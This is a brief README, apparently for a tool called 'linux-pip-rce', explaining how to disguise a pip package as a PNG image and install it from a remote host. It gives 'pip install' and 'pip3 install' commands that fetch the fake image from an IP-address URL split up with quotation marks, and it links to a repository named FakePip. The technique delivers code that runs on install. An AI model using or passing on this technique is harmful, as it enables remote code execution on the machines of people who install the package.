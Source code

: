 # linux-pip-rce
Save the image and change the extension to .zip ! </br>
pip install "http://1"."2"."3"."4/Rce.png" </br>
pip3 install "http://1"."2"."3"."4/Rce.png"</br></br></br>


https://github.com/0x00-0x00/FakePip

